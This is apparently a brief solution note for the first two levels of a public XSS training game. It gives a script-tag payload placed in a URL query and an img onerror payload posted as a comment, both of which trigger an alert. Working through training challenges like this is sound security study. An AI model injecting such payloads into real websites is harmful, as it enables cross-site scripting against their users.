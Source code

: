 Level 1 : change the URL : https://xss-game.appspot.com/level1/frame?query=<script>alert(1)</script>

Level 2 : add a comment with the following message : <img src=1 onerror=alert(1)>

